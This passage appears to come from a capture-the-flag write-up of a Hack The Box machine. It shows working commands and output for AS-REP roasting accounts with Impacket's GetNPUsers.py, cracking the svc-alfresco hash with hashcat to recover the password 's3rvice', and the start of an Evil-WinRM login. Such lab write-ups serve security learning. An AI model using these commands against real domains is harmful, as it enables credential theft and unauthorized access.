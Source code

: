 
Now I can use the Impacket tool `GetNPUsers.py` to try to get a hash for each
user, and I find one for the svc-alfresco account:

    
    
    root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
    
    [*] Getting TGT for Administrator
    [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for andy
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for lucinda
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for mark
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for santi
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for sebastien
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f
    

### Crack Hash

Now I can use `hashcat` to break the hash:

    
    
    root@kali# hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$
    5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004
    d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice
    ...[snip]...
    

I see the password is “s3rvice”.

### WinRM

I’ll give these credentials a try with [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm), and it works:
